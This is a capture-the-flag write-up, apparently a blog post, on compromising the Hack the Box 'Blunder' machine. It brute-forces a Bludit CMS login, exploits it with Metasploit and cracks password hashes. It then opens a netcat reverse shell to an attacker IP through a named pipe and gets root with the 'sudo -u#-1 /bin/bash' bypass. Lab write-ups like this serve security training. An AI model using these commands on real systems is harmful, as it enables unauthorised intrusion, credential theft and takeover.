 +++
author = "Nick"
categories = ["CTF", "hack the box", "Linux", "easy", "bludit", "blunder", "gobuster", "directory traversal", "metasploit", "sudo", "reverse shell", "su"]
date = 2020-10-17T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/10/infocard.png"
slug = "hack-the-box-blunder"
tags = ["CTF", "hack the box", "Linux", "easy", "bludit", "blunder", "gobuster", "directory traversal", "metasploit", "sudo", "reverse shell", "su"]
title = "Hack the Box - Blunder"

+++


Welcome back everyone! Today we are doing the machine Blunder from Hack the Box. This machine is listed as an Easy Linux machine. Let's jump in!

As always, we kick it off with our standard `nmap` command:
`nmap -sC -sV -oA allscan 10.10.10.191`

```
Nmap scan report for 10.10.10.191
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

As we see, it's a pretty basic scope. We'll add `blunder.htb` to our hosts file and take a look and see what is being hosted.

We are greeted with a pretty basic site. So as always, we'll start enumerating it with `gobuster`.

Command:
`gobuster dir -u http://blunder.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt`

Right away we see `/admin/`, `todo.txt` and `robots.txt`. First we'll take a look at the `todo.txt`. Nothing but some notes and a person to inform. Then we'll head over to `/admin` and see what might be there.

![](/images/2020/10/image.png)

We get a login page. Some googling shows this is probably a [flat file CMS](https://www.bludit.com/). With this knowledge we can do some research for exploits and vulnerablilies. We find some basic Directory Traversals but they need to be authenticated. More research leads us to a [blog post](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb) about brute force detection bypass. Luckily for us, there is a link to the [github](https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master) for the script as well.

So we'll clone the repo.

Command:
`git clone https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master`

Now we can change the permissions on the file.

Command:
`chmod +x bruteforce.py`

Now all we have to do is feed it  a `ip`, `username` and a `wordlist`. Now we have a name from our `todo.txt`, Fergus. We have an `ip` and a whole bunch of wordlists. We are good to go!

Command:
`python3 bruteforce.py 10.10.10.191 fergus /usr/share/wordlists/rockyou.txt`

We let it run but don't find anything. We run a few more wordlists and still no dice. Hmmm, well, we have a blog full of text, let's rip it all into a wordlist using `cewl`.

Command:
`cewl -d 1 -m 4 wordlist.lst --with-numbers http://10.10.10.191`

Now with our custom password list, we'll refeed it through our python app and see what we get.

![](/images/2020/10/blunder_wordlist.gif)

We've got one! A password of `RolandDeschain`. Let's use these creds to log in. Now that we're in, we can look around and get an idea of what's possible. We know we can leverage some previously found Directory Traversals since we have credentials.

Command:
`Searchsploit bludit`

![](/images/2020/10/image-1.png)

We'll start with the `Metasploit` module. First we'll start up `Metasploit` and find our exploit.

Command:
`msfdb run`

Once inside the `Metasploit` framework, we'll `search` for our exploit.

Command:
`search bludit`

![](/images/2020/10/image-2.png)

Now we'll `use` that exploit.

Command:
`use 0`
or
`use exploit/linux/http/bludit_upload_images_exec`

Next, we set our `rhost`, `bludituser` and `bluditpass` values.

Command:
`msf5> set rhost 10.10.10.191`
`msf5> set bludituser fergus`
`msf5> set bluditpass RolandDeschain`

Then we'll `run` our exploit.

![](/images/2020/10/image-3.png)

We now have a `Meterpreter` session! Doing some internal enumation shows two version of bludit installed.

![](/images/2020/10/image-4.png)

Poking around more shows a `databases` folder which has a `users.php` file. We'll download that file.

Command:
`meterpreter> download users.php`

When we look at the file contents, we see a password file hash for Admin and Fergus.

![](/images/2020/10/image-5.png)

We'll also download the password from the `bludit-3.10.0a` directory as well. A quick peek on [TunnelsUp](https://www.tunnelsup.com/hash-analyzer/) shows us these are unsalted SHA1 hashes. [Crackstation](https://crackstation.net/) has one of these passwords on file.

![](/images/2020/10/image-6.png)

This is the password for the user Hugo. Who is also a user on this machine. So at this point, we'll need to create a shell back to our system, upgrade it and switch user to `Hugo`.

We'll enter a shell in `Meterpreter` by issueing the `shell` command. Next we'll start our `netcat` listener.

Command:
`nc -lvnp 6969`

Next we'll forward out our shell. In this box we don't have the `-e` option in `netcat`. We can use [this solution](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99). Also, you could upload a webshell via `meterpreter` as well.

Command:
`mknod /tmp/backpipe p /bin/sh 0</tmp/backpipe | nc 10.10.14.202 6969 1>/tmp/backpipe`

And we catch a shell.

![](/images/2020/10/image-7.png)

Now we can upgrade out shell.

Command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Now we can `su` to hugo and get our `users.txt` flag!

![](/images/2020/10/image-8.png)

Now that we have a foothold as a user, we can enumerate. This box has been quite different than boxes in the past. Normally, we'd do basic enumeration by hand by poking around, running some basic commands and then use `linenum` or another enum script. This time, every tidbit we need has been in our initial commands.

We run `sudo -l` and see the `!root` flag.

![](/images/2020/10/image-9.png)

Between this and the version of `sudo` running, we can escalate to root. Here's a [quick snip](https://www.exploit-db.com/exploits/47502) on how the exploit works. All we have to do is execute the following command:

`sudo -u#-1 /bin/bash`

![](/images/2020/10/blunder_root.gif)

There we have it, box complete. A pretty standard entry level CTF box. I would highly recommend this box to new users.

If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).






